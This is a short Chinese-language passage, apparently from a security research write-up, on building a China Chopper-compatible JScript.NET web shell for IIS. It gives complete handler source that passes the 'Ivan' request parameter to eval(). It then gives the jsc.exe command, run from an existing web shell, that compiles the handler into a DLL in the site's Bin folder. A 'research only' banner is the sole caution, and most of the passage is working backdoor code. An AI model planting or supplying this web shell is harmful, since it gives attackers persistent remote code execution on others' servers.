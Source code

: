 实现菜刀可用的一句话就必须要引入Jscript.Net，而且需要利用.NET
FrameWork自带的jsc.exe去编译js脚本。有关jsc.exe的命令可以参考

<https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/7435xtz6(v=vs.100)>

笔者新建IsapiModu1e.Handler.js，实现代码如下

```js
import System; 
import System.Web; 
import System.IO; 
package IsapiModu1e{ public class Handler implements IHttpHandler{ function IHttpHandler.ProcessRequest(context : HttpContext){ context.Response.Write("<H1>Just for Research Learning, Do Not Abuse It! Written By <a href='https://github.com/Ivan1ee'\>Ivan1ee\</a></H1>") var I = context; var Request = I.Request; var Response = I.Response; var Server = I.Server; eval(context.Request["Ivan"]); } function get IHttpHandler.IsReusable() : Boolean{ return true}}}
```




在WebShell里调用jsc.exe编译js脚本，输入

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\jsc.exe /t:library -out:C:\inetpub\wwwroot\Bin\IsapiModu1e.Handler.dll C:\inetpub\wwwroot\IsapiModu1e.Handler.js
```




![](../img/net/b7b6775f7a5ac0dd1cd4d8a9df813750.png)
